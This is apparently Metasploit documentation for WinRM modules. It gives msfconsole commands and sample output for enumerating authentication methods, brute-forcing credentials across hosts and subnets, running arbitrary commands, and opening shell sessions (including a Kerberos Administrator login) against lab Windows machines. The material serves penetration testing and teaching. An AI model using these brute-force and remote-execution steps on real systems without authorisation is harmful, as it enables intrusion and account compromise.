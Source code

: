 ## WinRM Workflows
Either with the modern inline option support:
```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:
```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search winrm
```

### Lab Environment
WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:
```
winrm quickconfig -transport:https
```

### Authentication Enumeration
Enumerate WinRm authentication mechanisms:
```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:
```msf
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce
Brute-force host with known user and password list:
```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:
```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD
To execute arbitrary commands against a windows target:
```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session
If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:
```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:
```msf
msf6 auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication
Open a WinRM session:
```msf
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd winrm::auth=kerberos domaincontrollerrhost=192.168.123.13 winrm::rhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```

